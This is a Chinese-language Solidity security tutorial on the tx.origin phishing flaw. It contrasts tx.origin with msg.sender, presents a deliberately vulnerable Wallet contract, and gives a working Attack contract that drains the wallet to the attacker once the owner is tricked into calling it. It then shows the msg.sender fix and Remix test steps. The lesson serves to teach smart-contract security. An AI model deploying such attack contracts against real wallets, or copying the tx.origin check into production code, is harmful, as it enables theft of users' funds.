


# 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。


Wallet是一个简单的合约，只有所有者才能将转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。


1. Alice部署Wallet并存入10个以太
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太转移到了Eve。

### 钱包合约
部署钱包合约，包含一个owner状态变量用于记录合约的拥有者，包含一个构造函数和一个public函数：
* 构造函数: 在创建合约时给owner变量赋值.
* transfer(): 该函数会获得两个参数_to和_amount，先检查tx.origin == owner，无误后再给_to转账_amount数量的ETH。注意：这个函数有被钓鱼攻击的风险！
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 共计合约

它的攻击逻辑非常简单，就是构造出一个attack()函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有2个状态变量owner和wallet，分别用来记录黑客地址和要攻击的钱包合约地址。

它包含2个函数：

* 构造函数:初始化wallet合约地址.
* attack()：攻击函数，该函数需要钱包合约的owner地址调用，owner调用攻击合约，攻击合约再调用钱包合约的transfer()函数，确认tx.origin == owner后，将银行合约内的余额全部转移到黑客地址中。

```solidity

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
    require(msg.sender == owner, "Not owner");

    (bool sent, ) = _to.call{ value: _amount }("");
    require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth

2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth

3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
